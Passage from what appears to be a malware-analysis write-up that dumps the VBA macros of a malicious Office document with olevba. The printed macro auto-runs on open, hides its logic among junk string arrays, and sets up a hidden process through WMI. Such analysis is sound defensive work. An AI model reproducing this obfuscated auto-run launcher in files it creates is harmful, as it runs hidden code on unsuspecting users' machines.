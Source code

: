 #### Dump

I’ll start with `olevba` to dump the VBA macros. I’ll notice that there’s two
macros streams that it believes are empty:

    
    
    $ olevba cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2
    olevba 0.54.1 on Python 2.7.15 - http://decalage.info/python/oletools
    ===============================================================================
    FILE: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2
    Type: OLE
    -------------------------------------------------------------------------------
    VBA MACRO O3_4045.cls
    in file: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 - OLE stream: u'Macros/VBA/O3_4045'
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    (empty macro)
    -------------------------------------------------------------------------------
    VBA MACRO H94470.vba
    in file: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 - OLE stream: u'Macros/VBA/H94470'
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    Sub _
    autoopen( _
    )
       Dim d587624()
          ReDim d587624(5)
          d587624(0) = "206424235" + "276145942"
          d587624(1) = "270724748" + "644364997"
          d587624(2) = "998293622" + "775162821"
          d587624(3) = "419305928" + "165281006"
          d587624(4) = "645391534" + "663351253"
    H719_241
       Dim a566_28()
          ReDim a566_28(5)
          a566_28(0) = "892355821" + "126824804"
          a566_28(1) = "12521960" + "228692477"
          a566_28(2) = "455213603" + "397088026"
          a566_28(3) = "94846704" + "5941859"
          a566_28(4) = "245411699" + "225236639"
    End Sub
    Sub H719_241()
       Dim X690083()
          ReDim X690083(5)
          X690083(0) = "935402011" + "7445275"
          X690083(1) = "1298829" + "594659946"
          X690083(2) = "479032764" + "9024263"
          X690083(3) = "815473014" + "252858305"
          X690083(4) = "180358411" + "452096720"
    Set S19851 = GetObject(CStr("Winmgmts:Win32_ProcesSstartup"))
       Dim v47952()
          ReDim v47952(5)
          v47952(0) = "434953678" + "355235224"
          v47952(1) = "433715375" + "302757908"
          v47952(2) = "6807223" + "303678071"
          v47952(3) = "513990890" + "721825129"
          v47952(4) = "408871251" + "540064544"
    S19851. _
    ShowWindow = vbFalse - vbFalse
       Dim Q5954219()
          ReDim Q5954219(5)
          Q5954219(0) = "273197614" + "108278373"
          Q5954219(1) = "59680272" + "206794860"
          Q5954219(2) = "596328425" + "957730347"